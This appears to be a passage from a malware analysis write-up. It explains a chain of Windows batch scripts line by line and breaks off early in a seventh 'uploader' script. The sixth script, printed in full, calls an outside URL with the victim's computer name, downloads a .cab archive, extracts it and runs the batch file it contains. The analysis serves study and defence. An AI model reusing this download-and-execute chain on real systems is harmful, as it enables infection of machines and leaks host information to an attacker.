 ### Sixth Batch Script: 54312804.bat

```bat
@echo off
pushd %~dp0
if exist "temprun.bat" (
    del /f /q temprun.bat
)
call 53452693.bat "https://ausbildungsbuddy.de/modules/mod_mail/src/list.php?f=%COMPUTERNAME%.txt" "%~dp0XZJln.cab" "1" > nul
expand XZJln.cab -F:* %~dp0 > nul
del /f /q XZJln.cab > nul
call temprun.bat > nul
```

- **Navigates to the script's directory**:
    - `pushd %~dp0` ensures the script runs in its own directory.
- **Checks if `temprun.bat` exists and deletes it**:
    - `if exist "temprun.bat" ( del /f /q temprun.bat )` removes any previous instance of the `temprun.bat` script to ensure a clean run.
- **Downloads a file**:
    - `call 53452693.bat "https://ausbildungsbuddy.de/modules/mod_mail/src/list.php?f=%COMPUTERNAME%.txt" "%~dp0XZJln.cab" "1" > nul` calls `53452693.bat` (This batch file is the **a** wrapper for a downloader, that we had looked ealier**)** ,this likely downloads a `.cab` archive (XZJln.cab) from a remote URL, appending the machine's name in the query parameter (`%COMPUTERNAME%`).
- **Extracts the `.cab` file**:
    - `expand XZJln.cab -F:* %~dp0 > nul` extracts all files from the downloaded `.cab` file to the script’s directory.
- **Deletes the `.cab` file**:
    - `del /f /q XZJln.cab > nul` removes the downloaded `.cab` file after extraction.
- **Executes `temprun.bat`**:

### Seventh Batch Script: temprun.bat (Another Uploader)

```bat
@echo off
pushd %~dp0
set "tgurl12=%~1"
set fN12=fn
set fD12=fd
```